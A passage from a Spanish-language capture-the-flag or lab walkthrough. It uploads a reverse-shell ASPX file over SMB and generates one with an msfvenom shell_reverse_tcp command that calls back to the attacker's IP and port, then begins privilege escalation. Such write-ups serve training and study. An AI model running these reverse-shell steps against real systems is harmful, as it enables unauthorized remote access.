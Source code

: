 Ingresaremos al directorio con `smbclient` y agregaremos nuestro archivo malicioso

```php
smb: \> put revershell.aspx
```

![20240224010416.png](20240224010416.png)

- Caso 2

Para el segundo caso haremos uso de `msfvenom` con el cual generaremos nuestro fichero malicioso para luego agregar nuestro archivo el directorio compartido de `smb`

```php
 ❯ msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=10.9.115.196 LPORT=4444 -o shell.aspx  
```

```php
smb: \> put shell.aspx
```

![20240224011012.png](20240224011012.png)

# Escalada de privilegios

Luego de hacer la petición al sitio web en el directorio donde se encontraba `passwords.txt` y cambiemos por nuestro archivo podremos obtener una shell. Luego enumerar con lo siguiente `whoami /priv` podremos encontrar lo siguiente.
